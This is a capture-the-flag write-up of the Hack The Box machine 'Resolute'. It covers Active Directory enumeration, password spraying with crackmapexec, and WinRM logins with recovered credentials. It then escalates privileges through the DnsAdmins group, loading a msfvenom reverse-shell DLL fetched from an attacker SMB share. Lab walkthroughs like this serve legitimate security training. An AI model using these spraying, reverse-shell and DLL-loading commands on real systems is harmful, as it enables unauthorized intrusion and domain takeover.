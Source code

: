 # [Resolute](https://app.hackthebox.com/machines/Resolute)

```bash
nmap -p-  --min-rate 10000 10.10.10.169 -Pn
```

![alt text](img/image.png)

After detection of open ports, let's do greater nmap scan here.

```bash
nmap -A -sC -sV -p88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001 10.10.10.169 -Pn
```

![alt text](img/image-1.png)


From nmap scan result, I need to add `megabank.local` into `/etc/hosts` file for resolving ip addresses.

I try to make enumeration for `SMB` via `smbclient` command but it doesn't work for null credentials.
```bash
smbclient -N -L \\10.10.10.169
```

![alt text](img/image-2.png)


But I can't find anything as interested, let's look at `RPC` to find sensitive and interesting information.

```bash
rpcclient -U "" -N 10.10.10.169
```

![alt text](img/image-3.png)


Let's run `querydispinfo` command to get information about all users on this domain.

![alt text](img/image-4.png)


For `marco` user, I can see that `Description` contains default password called `Welcome123!`, but this credential doesn't work for `marco` user.

```bash
crackmapexec smb 10.10.10.169 -u marco -p 'Welcome123!'
```

![alt text](img/image-5.png)



Let's get all users from `RPC` by running `enumdomusers` and brute-force this password for them by using `crackmapexec`

```bash
crackmapexec smb 10.10.10.169 -u users.txt -p 'Welcome123!' --continue-on-success
```

![alt text](img/image-6.png)


From this image, we see that `melanie` user forgot to change his password.

melanie: Welcome123!


Let's connect into machine via this credentials by using `evil-winrm` command. But I need to specify port number to `5985` as because `WinRM` protocol is running on this port for our target.

```bash
evil-winrm -i 10.10.10.169 -P 5985 -u melanie -p 'Welcome123!'
```

user.txt

![alt text](img/image-7.png)


I find `hidden` file which may contain sensitive info on machine by running `gci -force` on `C:\PSTranscripts\20191203` directory.

![alt text](img/image-8.png)


I found `ryan` user's password as `hard-coded` on this `.txt` file.

![alt text](img/image-9.png)


ryan: Serv3r4Admin4cc123! 


Let's check this credentials via `crackmapexec`.
```bash
crackmapexec winrm 10.10.10.169 -u ryan -p 'Serv3r4Admin4cc123!' 
```

![alt text](img/image-10.png)


Let's login into machine via this credentials by using `evil-winrm`.

![alt text](img/image-11.png)


While I running `whoami /groups` to recon this user that belongs to which groups.

From output, you can see this user belongs `DnsAdmins` group which is so sensitive thing.

I use [this](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges#dnsadmins) for abusing membership of `DnsAdmins` group.


First, I need to create malicious `.dll` file which gives me `reverse shell`.
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.18 LPORT=1337 -f dll -o dr4ks.dll
```

![alt text](img/image-12.png)


Then, we need to open `SMB share` to serve this file.
```bash
python3 /usr/share/doc/python3-impacket/examples/smbserver.py share . -smb2support
```

![alt text](img/image-13.png)

Now, I need to config `DNS` service via `dnscmd` command.
```bash
dnscmd.exe /config /serverlevelplugindll \\10.10.14.18\share\dr4ks.dll
sc.exe \\resolute stop dns
sc.exe \\resolute start dns
```

![alt text](img/image-14.png)



Hola! I got reverse shell from port `1337`.

![alt text](img/image-15.png)


root.txt

![alt text](img/image-16.png)